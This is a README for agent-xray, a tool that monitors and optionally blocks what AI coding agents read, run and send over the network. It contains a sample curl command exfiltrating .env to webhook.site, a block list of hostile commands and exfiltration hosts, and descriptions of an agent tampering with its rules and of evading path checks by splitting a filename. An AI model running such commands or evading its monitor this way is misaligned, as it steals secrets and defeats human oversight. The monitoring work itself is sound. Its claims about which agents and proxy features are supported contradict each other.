

# agent-xray

**X-ray for AI coding agents.** See which files your agent reads, which commands it runs and where your data goes, in real time. Log-only by default; turn blocking on when you want it.

[](https://github.com/asanbay/agent-xray/actions/workflows/ci.yml)
[](https://site-gcde.zai-ai.site/)


[](LICENSE)



**Why this exists.** GitGuardian found **24,008 secrets** leaked in agent configs on public GitHub — 2,117 still working. On one real MacBook, agents had left three servers running for **26–51 days**, listening on all network interfaces. Nobody noticed. agent-xray is the guard: it watches what agents actually do — files, commands, network — logs everything, and (opt-in) blocks the dangerous parts.

```
18:26:16  ✔ ok     file:read  ~/projects/shop/src/index.ts
18:26:19  ⚠ WARN   file:read  ~/projects/shop/.env            ← sensitive path (**/.env)
18:26:22  ✖ BLOCK  file:read  ~/.ssh/id_rsa                    ← sensitive path (**/.ssh/**)
18:26:23  ✖ BLOCK  exec       curl -X POST -d @.env https://webhook.site/…  ← uploads a secret file
```

> Status: **v0.7** — multi-agent (Claude Code, ZCode, Cursor), **proxy mode** (domain-level visibility for ANY agent), observe/guard modes, tamper seal, sweep, audit, live 3D dashboard. Zero runtime dependencies. Node 18+.

## Proxy: watch agents that have no hook API

Codex CLI, Gemini CLI, Aider — anything that speaks HTTP can be watched through the local proxy:

```bash
agent-xray proxy                 # listens on 127.0.0.1:8080
HTTPS_PROXY=http://127.0.0.1:8080 HTTP_PROXY=http://127.0.0.1:8080 codex
```

Every domain the agent touches is logged (session `proxy`) and shown on the dashboard. HTTPS is **tunneled, not decrypted** — hostnames only, never contents. In guard mode, warn-level and blocked hosts are refused with 403 at connect time.

## Audit: your computer's AI Safety Score in one command

```bash
agent-xray audit
```

Runs the full checkup and writes a self-contained HTML report to `~/.agent-xray/audit/latest.html` (opens automatically on macOS):

- **AI Safety Score 0-100** with a letter grade and an exact score breakdown;
- parasites and exposed services (the sweep findings);
- **plaintext secrets in agent configs** (AWS/GitHub/Google/Slack-shaped keys, private key blocks) — expected credential files are reported separately, values are always masked;
- X-ray coverage of every installed agent, current mode and tamper-seal state;
- concrete recommendations, each one a single command.

Re-run after fixing to watch the score climb.

## Sweep: find the parasites AI agents left behind

Everyone runs CLI agents now, and almost nobody knows what they leave running: orphaned dev servers, ports open to the whole network, login items, gigabytes of scratch data. `sweep` finds them — read-only, it never kills anything:

```bash
agent-xray sweep          # human report
agent-xray sweep --json   # for scripts
```

It reports, sorted by severity:

- ✖ **hot** — servers listening on ALL interfaces (visible from your Wi-Fi), with the working directory so you know who left them;
- ⚠ **warn** — orphaned servers (detached, alive for days), agent login items / LaunchAgents, big agent data folders (100 MB+);
- ✔ **info** — harmless localhost listeners of known tools.

macOS built-in daemons (rapportd, AirPlay and friends) are whitelisted, so a clean report stays clean.

## Modes: observe by default, guard on demand

agent-xray **never blocks anything until you ask it to**. The mode lives in `~/.agent-xray/config.json`:

```bash
agent-xray mode observe   # default: log everything, deny nothing
agent-xray mode guard     # warn → the agent asks you, block → denied
```

- **observe** 👁 — a pure window: every file, command and host call is logged and shown on the dashboard, the agent works untouched.
- **guard** 🔒 — rules are enforced. Switch it on yourself, from your own terminal.

**An agent cannot switch the filter off.** In guard mode these get denied with a 🫖 instead of a reason:

- running `agent-xray uninstall / mode / seal` (or `cli.js …`), `npm uninstall agent-xray`;
- writing to `~/.agent-xray/**` or the hook configs (`~/.claude/settings.json`, `~/.zcode/cli/config.json`, `~/.cursor/hooks.json`).

**Tamper seal.** `agent-xray mode` stamps a SHA-256 seal of `config.json` + `rules.json`. On every tool call the hook re-checks it — if the files were edited behind its back (e.g. an agent adding `"allow": ["**"]`), every decision becomes *deny* with `config/rules modified outside agent-xray mode` and a tamper event lands in the log and on the dashboard. After editing rules by hand, run `agent-xray mode <same>` to reseal.

## Agents

`agent-xray agents` lists what is installed on this machine and what is supported:

| Agent | Status |
|---|---|
| Claude Code | ✔ full support (`PreToolUse` hook in `~/.claude/settings.json`) |
| ZCode | ✔ full support (`PreToolUse` in `~/.zcode/cli/config.json`, needs a ZCode restart) |
| Cursor | ✔ beta (`beforeShellExecution` + `beforeReadFile` in `~/.cursor/hooks.json`) |
| Codex CLI, Gemini CLI, OpenCode, Windsurf, Aider | detected, but they have no hook API yet — the local proxy mode (roadmap) will cover them |

```bash
node dist/cli.js install        # every supported agent found on this machine
node dist/cli.js install zcode  # just one: claude | zcode | cursor | project
node dist/cli.js uninstall      # removes only our hooks (backups are kept)
```

## Quick start

```bash
git clone <this repo> && cd agent-xray
node dist/cli.js install        # hooks for every supported agent (observe mode: log only)
node dist/cli.js dashboard      # web dashboard on http://127.0.0.1:8787 (opens the browser)
node dist/cli.js watch          # or: live feed in the terminal
# restart your agent(s) and use them as usual
node dist/cli.js report         # summary + risk grade
node dist/cli.js uninstall      # removes only our hooks
```

Try it without any agent: `node dist/cli.js demo` (add `--log` to also feed the event log, e.g. before opening the dashboard).

Use `--project` with `install`/`uninstall` to write to `./.claude/settings.local.json` instead of your global settings.

## What the levels mean

| Level | Effect in Claude Code |
|-------|-----------------------|
| `✔ ok` | allowed silently (still logged) |
| `⚠ WARN` | Claude Code **asks you** before running it |
| `✖ BLOCK` | tool call is **denied** and Claude is told why |

## What it watches

- **Files** (Read, Edit, Write, MultiEdit, NotebookEdit, Grep, Glob): `.env*`, `~/.ssh`, cloud credentials, keys, wallets, browser password stores, shell rc files, CI workflows, the agent's own `settings.json`. Symlinks are resolved.
- **Commands** (Bash): `curl | sh`, `rm -rf /`, env dumps, uploading secret files, `sudo`, force-push, package publish, persistence (`crontab`, `launchctl`) … Paths inside commands are checked too (`cat .env`, `cp ~/.ssh/id_rsa …`).
- **Network** (WebFetch + URLs in Bash): hosts are logged; known exfiltration endpoints (webhook.site, pastebin, ngrok, interactsh …) and data uploads to unlisted hosts are flagged.

Secrets are never written to the log: commands are redacted, file *contents* are never read.

## Custom rules

`~/.agent-xray/rules.json` — arrays are appended to the built-ins, `allow` wins over `block`/`warn`:

```json
{
  "file":    { "allow": ["~/work/**/.env"], "warn": ["~/Documents/taxes/**"] },
  "network": { "allow": ["internal.mycompany.com"] },
  "command": { "warn": [{ "pattern": "\\bterraform\\s+apply\\b", "reason": "infra change" }] }
}
```

## Honest limits (read this)

agent-xray is a **guardrail and a window, not a sandbox.**

- It sees what goes through Claude Code's tool calls. An agent that runs a script which itself opens files or sockets (`python -c "open('.e'+'nv')"`) can slip past path checks.
- Grep/Glob over a whole directory can't tell which files inside it get read.
- Hooks fail **open**: if agent-xray crashes, your agent keeps working (errors go to `~/.agent-xray/errors.log`).
- Managed/enterprise setups using `allowManagedHooksOnly` will not run user hooks.
- Only Claude Code is supported today. Network proxy mode and other agents are on the roadmap.

## Web dashboard

`agent-xray dashboard` serves a dark live dashboard on `http://127.0.0.1:8787` (bound to localhost only, `--port` to change):

- live event feed (server-sent events — no refresh needed);
- risk grade and counters for the selected session;
- filters: all / warned / blocked, plus a session switcher;
- nothing ever leaves your machine.

## Roadmap

- [ ] Local HTTP(S) proxy (domain-level network visibility for any agent)
- [x] Web dashboard on localhost
- [ ] README badge + shareable session report
- [ ] Sweep + audit results in the web dashboard
- [ ] OS-level strict mode (eBPF / seccomp on Linux)
- [x] Claude Code + ZCode + Cursor (hook APIs); proxy mode for the rest

## Development

```bash
npm install
npm test        # compiles, then runs 13 tests incl. real hook-process and dashboard tests
```

MIT licensed.
